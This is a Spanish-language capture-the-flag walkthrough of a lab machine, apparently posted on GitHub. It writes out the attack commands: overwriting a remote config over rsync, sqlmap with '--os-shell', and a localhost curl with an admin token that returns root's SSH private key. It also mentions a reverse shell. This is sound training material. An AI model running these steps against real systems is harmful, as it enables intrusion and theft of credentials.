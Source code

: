 ### Tags: `rsync` `sqlmap` `getcap`

# Escaneo (*22, 80, 139, 445*)

```css
sudo nmap -p- --open -sSCV --min-rate 4000 -vvv -n -Pn <IP> -oN escaneo
````

![image](https://github.com/user-attachments/assets/b5443b93-8748-44d6-9843-71d2a06dde6c)


# Port80 / Gobuster

Como vimos arriba en el reporte del escaneo la web es un *ubuntu Default Page* por ende tiramos de Gobuster

```ruby
gobuster dir -u http://<IP>/ -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x txt,php,html --no-error
```

Encontramos este directorio:

![image](https://github.com/user-attachments/assets/7e47c4c7-3b94-4b8d-95b9-3e2c77e181cd)

Si vamos en la web nos dice **403 Forbidden** y cuando hacemos `Ctrl + u` nos dice esto otro:

![image](https://github.com/user-attachments/assets/0aba8e1a-53d9-4dff-9216-6ee95cd55637)

Esto significa que actualmente estamos en el **entorno de producción** y tenemos que encontrar una manera de ir al entorno de producción. Para ello podemos consultar otros servicios. Entonces tenemos ``Rsync y 'Rsync`` se usa para **transferir** y **sincronizar** archivos entre una computadora y un disco duro externo y entre computadoras en red comparando los tiempos de modificación y los tamaños de los archivos. 
Lo que vamos a hacer ahora es verificar loa archivos del directorio `conf` y se hace de esta manera:

```ruby
 rsync -av rsync://<IP>/
```

![image](https://github.com/user-attachments/assets/3b03ee10-1fbf-4ee4-822f-ae331a0319bd)

Ahora nos metemos dentro de `Conf`

```ruby
rsync -av rsync://<IP>/Conf
```

![image](https://github.com/user-attachments/assets/143f82fd-de88-4b48-8b9e-cf4534e8d426)

Ahora lo que hacemos es **copiarnos** todos los archivos a nuestra máquina y verifiquemos si podemos obtener algo

```ruby
rsync -av rsync://<IP>/Conf ./mi_Conf
```

![image](https://github.com/user-attachments/assets/48cd2430-dead-4aeb-a32d-14d8672f6d84)

Observando los distintos archivos, en `webapp.ini` encontramos credenciales de un **TomCat** que esta en `prod`

![image](https://github.com/user-attachments/assets/1a9bac4d-f2b5-46f5-b887-523659d05f1f)

Entonces lo que hacemos es cambiarlo a `dev` y enviarlo otra ves con el archivo cambiado 

```ruby
nano webapp.ini   #cambiar a dev
rsync -av webapp.ini rsync://<IP>/Conf/webapp.ini
```

![image](https://github.com/user-attachments/assets/073bb231-b8ba-46e9-911b-e5f0176fd0f5)

Ahora si recargamos la pagina en `/admin` podemos visualizar la web y no nos da el 403 de antes

![image](https://github.com/user-attachments/assets/a40d9cf5-1edc-48e5-9075-007c15add7d8)

# SQLMap

Capturamos la petición con Burp y lo guardamos para jugar con `sqlmap`
- `-dbs` enumere todas las bases de datos disponibles
- `--risk 3` nivel de riesgo (técnicas más agresivas y potencialmente más ruidosas)
- `--level 5` nivel de profundidad de las técnicas de explotación
- `--os-shell` Le indica a SQLmap que intente obtener un shell de sistema operativo en el servidor remoto

```ruby
sudo sqlmap -r SQL_burp -dbs --risk 3 --level 5 --os-shell 
```

Una ves nos dio la `os-shell` no entablamos una ReverShell de esta forma

![image](https://github.com/user-attachments/assets/8b500aaa-a9af-4bbd-afab-6b09be1bf00c)

![image](https://github.com/user-attachments/assets/d307da36-fa03-473f-bbb4-2f8cabe9bbcd)


# Escalada **ROOT**

Tenemos la primera flag

![image](https://github.com/user-attachments/assets/63efa394-6cdc-4d36-8188-f87a3b2b0f7f)

Haciendo un `getcap -r / 2>/dev/null` tenemos capibility (**cap_net_raw+ep**) indica que el archivo tiene el bit de ejecución elevado (**ep**) y la capibility **cap_net_raw** asignada.

![image](https://github.com/user-attachments/assets/8acaf11c-26f0-49a6-b899-ea459a9bee17)

Lo que hacemos es tirar un `LinPeas` y observamos esto:

![image](https://github.com/user-attachments/assets/23a8f327-409a-4951-9962-67426f514288)

Entonces si hacemos un `curl http://127.0.0.1:1027/?admin=ScadfwerDSAd_343123ds123dqwe12` obtenemos la id_rsa de `root`

![image](https://github.com/user-attachments/assets/f5f4b619-70d7-4bd2-a156-1dc27cc2f773)

Nos conectamos por **ssh** y listo

![image](https://github.com/user-attachments/assets/7631cb16-dbc0-4752-b81e-c7181acf2707)





